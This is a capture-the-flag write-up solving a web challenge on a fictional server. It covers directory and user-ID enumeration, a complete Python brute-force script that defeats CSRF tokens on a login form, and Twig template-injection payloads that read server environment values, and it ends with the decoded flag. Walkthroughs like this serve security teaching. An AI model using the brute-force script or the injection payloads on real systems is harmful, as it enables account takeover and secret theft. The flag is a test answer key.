




# Role Management System (4 points)

Hi, emergency troubleshooter,

we urgently need to replace the outdated identity management system with a new
progressive solution. Verify that it is functioning properly and that no
information leakage is occurring. New instance is running on server
`idm-new.powergrid.tcc`.

Stay grounded!

## Hints

* Even if you find what you are looking for, you must use brut(al) force to get
  it!

## Solution

There seems to be a website running on the server, so let's use `dirb` to
explore what we can find.

```
$ dirb http://idm-new.powergrid.tcc

-----------------
DIRB v2.22
By The Dark Raver
-----------------

URL_BASE: http://idm-new.powergrid.tcc/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://idm-new.powergrid.tcc/ ----
+ http://idm-new.powergrid.tcc/announcement (CODE:200|SIZE:4202)
+ http://idm-new.powergrid.tcc/index.php (CODE:200|SIZE:1813)
==> DIRECTORY: http://idm-new.powergrid.tcc/js/
+ http://idm-new.powergrid.tcc/login (CODE:200|SIZE:2559)
+ http://idm-new.powergrid.tcc/logout (CODE:302|SIZE:362)
+ http://idm-new.powergrid.tcc/server-status (CODE:403|SIZE:286)
==> DIRECTORY: http://idm-new.powergrid.tcc/styles/
+ http://idm-new.powergrid.tcc/user (CODE:200|SIZE:3060)

---- Entering directory: http://idm-new.powergrid.tcc/js/ ----

---- Entering directory: http://idm-new.powergrid.tcc/styles/ ----
==> DIRECTORY: http://idm-new.powergrid.tcc/styles/fonts/

---- Entering directory: http://idm-new.powergrid.tcc/styles/fonts/ ----

-----------------
DOWNLOADED: 18448 - FOUND: 6
```

The `/announcements` page contains some messages



When inspecting the links used for _Author_ fields we can see, that each one of
them contains also commented-out code leading to `/user/{id}`. We can try to
retrieve info about some users by enumerating this endpoint.

```
$ for i in `seq 1 35`; do if curl -sf http://idm-new.powergrid.tcc:443/user/$i -o $i.html; then echo $i exists; fi; done
1 exists
2 exists
3 exists
4 exists
5 exists
6 exists
7 exists
8 exists
9 exists
10 exists
11 exists
12 exists
13 exists
14 exists
15 exists
16 exists
17 exists
18 exists
19 exists
20 exists
21 exists
22 exists
23 exists
24 exists
25 exists
26 exists
27 exists
28 exists
29 exists
30 exists
```

If we open sample downloaded HTML, we can see that it contains information
about the roles of these users. We can check, what roles are present in the
downloaded files.

```
 grep -rio "role_[a-z]\+" *.html
1.html:ROLE_USER
2.html:ROLE_USER
3.html:ROLE_USER
4.html:ROLE_USER
5.html:ROLE_USER
6.html:ROLE_USER
7.html:ROLE_USER
8.html:ROLE_USER
9.html:ROLE_USER
10.html:ROLE_USER
11.html:ROLE_USER
12.html:ROLE_USER
13.html:ROLE_USER
14.html:ROLE_USER
15.html:ROLE_USER
16.html:ROLE_USER
17.html:ROLE_USER
18.html:ROLE_USER
19.html:ROLE_USER
20.html:ROLE_USER
21.html:ROLE_USER
22.html:ROLE_ADMIN
22.html:ROLE_USER
23.html:ROLE_USER
24.html:ROLE_USER
25.html:ROLE_USER
26.html:ROLE_USER
27.html:ROLE_USER
28.html:ROLE_USER
29.html:ROLE_USER
30.html:ROLE_USER
```

It seems like the user with ID `22` is administrator. The `22.html` file
also reveals the username of `ella.reed` and e-mail `ella.reed@powergrid.tcc`.

We'll need the e-mail for the login form, however, we have no information about
the password yet.



The hint suggests, that we'll need to use brute force. Similarly to the
[Gridwatch] task, this form is also protected by CSRF token. We can modify the
same script we've created before with minor modifications.

```python
#!/usr/bin/env python3
import sys
import requests
from bs4 import BeautifulSoup

# Configuration
LOGIN_URL = "http://idm-new.powergrid.tcc/login"
CSRF_FIELD = "_csrf_token"
FAILED_INDICATOR = "Invalid credentials"
def create_form_data(password, csrf_token):
    return {
        "_username": "ella.reed@powergrid.tcc",
        "_password": password,
        CSRF_FIELD: csrf_token
    }

def get_csrf_token(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    csrf_input = soup.find('input', {'name': CSRF_FIELD})
    if csrf_input:
        csrf_token = csrf_input.get('value')
        return csrf_token
    else:
        raise ValueError(f"CSRF token field '{CSRF_FIELD}' not found in the form")

def main():
    session = requests.Session()
    response = session.get(LOGIN_URL)
    try:
        csrf_token = get_csrf_token(response)
    except Exception as e:
        print(f"Error getting CSRF token: {e}")
        sys.exit(1)

    # Read passwords from stdin
    for line in sys.stdin:
        password = line.strip()
        if not password:
            continue

        try:
            response = session.post(LOGIN_URL, data=create_form_data(password, csrf_token))
            if FAILED_INDICATOR in response.text:
                # Extract new CSRF token for next attempt
                csrf_token = get_csrf_token(response)
            else:
                # Success or different error - investigate
                print(f"POTENTIAL SUCCESS with: {password}")
                return
        except Exception as e:
            print(f"Error with {password}: {e}")

if __name__ == "__main__":
    main()
```

Same as the last time, running this using "pwdb top 1000" list from `seclists`
reveals that even `ella.reed@powergrid.tcc` uses really simple credentials.

```
$ cat /usr/share/seclists/Passwords/Common-Credentials/Pwdb_top-1000.txt | ./bruteforce_with_csrf.py
POTENTIAL SUCCESS with: 123abc
```

Now we know both the username and the password, so we can log in.

After logging in, we can explore new menu items and pages that have been
enabled, we come across the _User Search_ page in the _Admin_ menu. This page
allows us to search for the users.



If we put a character (e.g. `a`) there, we can see that it lists all users
containing that character, however, if we put some longer text that yields no
results (e.g. `needle`), we can just see error message saying e.g.
`No users found for query: needle`.

By experimenting with various payloads we may discover, that the search for is
vulnerable to Server Side Template Injection and interprets expression wrapped
in curly brackets. E.g. searching for `{{ 12 * 13 }}` yields an error saying
`No users found for query: 156`.

Now we can experiment with various payloads and see that e.g. `{{ app }}` query
yields `Object of class Symfony\Bridge\Twig\AppVariable could not be converted to string`,
which tells us that the server uses Twig template engine. By exploring and
experimenting further we can list all the keys of `app.request.server`, i.e. by
sending `{{app.request.server|keys|join(', ')}}` to the search form, revealing
that there's a `FLAG` key present.

We can retrieve it by asking just for that particular value explicitly, i.e.
using `{{app.request.server.get('FLAG')}}` query.



Since this is not our first base64-encoded flag that we've ever seen, decoding
is easy.

```
$ echo RkxBR3tUaEtILWRxaW8tNDlBWC1TWmxHfSAK | base64 -d
FLAG{ThKH-dqio-49AX-SZlG}
```

[Gridwatch]: ../gridwatch/